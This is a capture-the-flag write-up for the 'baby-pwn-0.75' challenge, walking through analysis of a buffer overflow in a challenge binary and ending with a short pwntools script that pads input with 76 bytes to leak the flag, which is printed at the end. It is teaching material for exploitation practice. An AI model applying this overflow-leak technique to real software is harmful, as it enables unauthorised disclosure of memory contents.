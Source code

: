 # baby-pwn-0.75 
> Write-up author: vreshco
## DESCRIPTION:
Apakah kamu tau bahwa Buffer Overflow dapat me leak suatu nilai variable?

Koneksikan menggunakan:

nc ctf.tcp1p.com 3830


## HINT:
- NONE
## STEPS:
1. First, download the binary file given, then check the binary type.

> RESULT - ELF 64 BIT and luckily not stripped

![image](https://user-images.githubusercontent.com/70703371/215320723-53d8e24b-5d2e-4952-bacf-e2978977c49c.png)


2. Now check the binary's protection.

> RESULT - PARTIAL RELRO

![image](https://user-images.githubusercontent.com/70703371/215320758-130a6c5b-323e-4a01-bc8e-83d0dc70af42.png)


3. Hmm.. Let's make the binary executeably then execute it.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/215320818-90df9081-bee9-4bfc-9db5-ff25f3bd9395.png)


4. Let's decompile the binary then.
5. Analyzing the `vuln()` function, we know that there's a vulnerability about leaking variable value by utilizing the `%s`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/215693733-ac00bffc-08b4-4dfa-8f4b-46ae1e8abeff.png)


![image](https://user-images.githubusercontent.com/70703371/215693958-97eeaa23-15b1-43ad-940f-f68f8798f303.png)


6. We can leak the `local_98` value. Notice since there's no specific payload we need to send, we just need add padding bytes and leak it one by one.
7. Let's start by sending 32 bytes.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/215696243-914c0857-d92f-49f7-852e-f1e4eceebc95.png)


8. Looks like we leaked the flag but not only half of it.
9. So i bruteforced it by incrementing the bytes by 2-4 and so on.

> 52 bytes.

![image](https://user-images.githubusercontent.com/70703371/215698166-705fa72d-84ab-4e86-b6a8-d7fc0c981a47.png)


> 76 bytes.

![image](https://user-images.githubusercontent.com/70703371/215697094-45911f53-0970-492c-987e-5d77864a7b16.png)


10. But when i input certain bytes like **53** and **75** got no char leaked.

> 53

![image](https://user-images.githubusercontent.com/70703371/215702213-e11797be-c08a-4cb1-9886-41c2575fdc16.png)


> 75

![image](https://user-images.githubusercontent.com/70703371/215702315-914ed292-6646-4f46-b24f-f68f0307e300.png)


11. When i tried to read the `flag()` function, notice if a char is `_` hence shall printed null bytes, which means the null bytes is an underscore.

![image](https://user-images.githubusercontent.com/70703371/215702960-a824fa57-430f-439f-b295-e26f3fabd007.png)


13. We got the flag!

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
sh = start()
'''
for i in range(32, 101):
    try:
        sh = start()
        bytess = '{}'.format(i)
        pay = b'A' * int(bytess)
        sh.sendlineafter('?',pay)
        get = sh.recvline()
        print(get)
    except EOFError:
        pass
'''
#32, 53, 54, 75, 76
pay = flat([
    b'A' * 76
])
sh.sendlineafter('?', pay)
sh.interactive()
```

## FLAG

```
TCP1P{buffer-overflow_to-leak-some-variable_6967462384}
```

